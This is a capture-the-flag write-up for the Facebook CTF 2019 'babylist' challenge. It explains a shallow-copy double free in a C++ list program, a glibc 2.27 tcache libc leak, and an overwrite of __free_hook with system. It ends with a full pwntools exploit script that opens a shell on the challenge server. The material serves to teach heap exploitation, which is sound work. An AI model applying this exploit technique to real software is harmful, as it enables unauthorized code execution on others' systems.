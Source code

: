 # Facebook CTF 2019 - babylist

This challenge is c++ binary.

```
$$$$$$$$$$$$$$$$$$$$$$$$$$
Welcome to babylist!
$$$$$$$$$$$$$$$$$$$$$$$$$$

1. Create a list
2. Add element to list
3. View element in list
4. Duplicate a list
5. Remove a list
6. Exit
>
```
It looks like heap challenge. List structure is as follows.

```
typedef list {
  char name[0x70];
  int *start; /* address of the first element in array */
  int *last;  /* address of the last element in array */
  int *limit; /* end of allocated array */
} List;
```

start, last, limit pointers points address of memory that is dynamically allocated.
When we add a element to list, the element added to array and last pointer is increased by 4(size of element).

When we add first element to list, the start pointer is initialized via `operator new(4)`. and internally(in binary)
it can store only one element. Each time the array is full, existing array is freed(deleted) and new array is allocated.
The size of array gets doubled each time.

Third menu 'View' has nothing special. Duplicating list literally copies a list. But an interesting point is that it
doesn't allocate new array and copies, instead copies start, last, limit pointer. So it can happen that
1. Make an list named A. Add elements until array in the list gets full.
2. Duplicate that list. Let's call duplicated list B.
3. Add a element in A. Then A gets newly allocated array(start, last, limit).
4. Array that B has is freed memory.

Also if we add a element in B, array that B has is again freed(double free). We can use this vulnerability later in exploit.
To leak the address of libc,
1. Make a list. and add elements until the size of array becomes large enough(larger than 0x80, which is fastbin chunk).
2. Add elements so that array gets full.
3. Duplicate the list 8 times.
4. Add a elements in each list except the the last list.
  - The same array is freed 8 times.
  - Binary uses glibc 2.27 which implements tcache. With first 7 frees, tcache gets saturated.
  - The last eighth free puts the chunk into unsorted bin.
5. View the value of first, second elements in 9th list.
  - Array of 9th list is pointer of freed chunk in unsorted bin.
  - first, second bytes are the address of somewhere in main_arena
  - We can get base address of libc.

After libc leak, the exploit scenario is as follows.
1. Make a list and add elements until the size of array becomes 0x91(including chunk header)
  - The reason we do this step is 0x91 is the same as the size of 'list' structure.
2. Duplicate this list 2 times.
3. Add a element in two lists.
  - Array is double freed. (tcache -> p -> p)
4. Make a list with its name value of address of __free_hook. (tcache -> p)
5. Make a list with its name value of "/bin/sh\x00". (tcache -> __free_hook)
  - Array of third list is '/bin/sh\x00'
  - Let's call this array A.
6. Make a list with its name value of address of system
  - __free_hook is allocated.
7. Add a element in 3rd list.
  - A is freed. That is, free(A)
  - __free_hook is overwritten with system and A has "/bin/sh"
  - free(A) is system("/bin/sh");
8. Get shelL!

```
from pwn import *

bin = ELF('./babylist')
libc = ELF('./libc-2.27.so', checksec=False)

LOCAL = False

one_gadget_offset = [0x4f2c5, 0x4f322, 0x10a38c]


def create_list(name):
    conn.sendlineafter('> ', str(1))
    conn.sendlineafter('name for list:\n', name)
    conn.recvuntil('List has been created!\n')


def add_element(idx, num):
    conn.sendlineafter('> ', str(2))
    conn.sendlineafter('Enter index of list:\n', str(idx))
    conn.sendlineafter('Enter number to add:\n', str(num))
    conn.recvuntil('Number successfully added to list!\n')


def view_element(list_idx, idx):
    conn.sendlineafter('> ', str(3))
    conn.sendlineafter('Enter index of list:\n', str(list_idx))
    conn.sendlineafter('Enter index into list:\n', str(idx))


def duplicate_list(idx, name):
    conn.sendlineafter('> ', str(4))
    conn.sendlineafter('Enter index of list:\n', str(idx))
    conn.sendlineafter('Enter name for new list:\n', name)
    conn.recvuntil('List has been duplicated!\n')


def remove_list(idx):
    conn.sendlineafter('> ', str(5))
    conn.sendlineafter('Enter index of list:\n', str(idx))
    conn.recvuntil('List has been deleted!\n')


if LOCAL:
    conn = process('./babylist', env={'LD_PRELOAD': './libc-2.27.so'})
    gdb.attach(conn)
else:
    conn = remote('challenges.fbctf.com', 1343)

# Stage 1: Libc Leak
create_list('AAAAAAAA')

for i in range(64):
    log.info(str(i))
    add_element(0, 1)

for i in range(8):
    duplicate_list(0, 'BBBBBBBB')

for i in range(8):
    add_element(i, 1)

view_element(8, 0)

conn.recvuntil('BBBBBBBB[0] = ')
lower = conn.recvuntil('\n')[:-1]
if lower.startswith('-'):
    lower = ~int(lower[1:]) + 1
else:
    lower = int(lower)

view_element(8, 1)
conn.recvuntil('BBBBBBBB[1] = ')
higher = int(conn.recvuntil('\n')[:-1]) + 1

libc_addr = (higher << 32) + lower - 0x3ebca0
log.info('Libc_addr: ' + hex(libc_addr))
log.info('One_gadget_addr: ' + hex(libc_addr + one_gadget_offset[1]))

# Stage 2
for i in range(9):
    remove_list(i)

create_list('CCCCCCCC')  # 0

for i in range(32):
    add_element(0, 1)

duplicate_list(0, 'DDDDDDDD')  # 1
duplicate_list(0, 'DDDDDDDD')  # 2

add_element(0, 1)
add_element(1, 1)

create_list(p64(libc_addr + libc.symbols['__free_hook']))
create_list('/bin/sh\x00')
create_list(p64(libc_addr + libc.symbols['system']))

conn.sendlineafter('> ', str(2))
conn.sendlineafter('Enter index of list:\n', str(2))
conn.sendlineafter('Enter number to add:\n', str(1))

conn.interactive()
```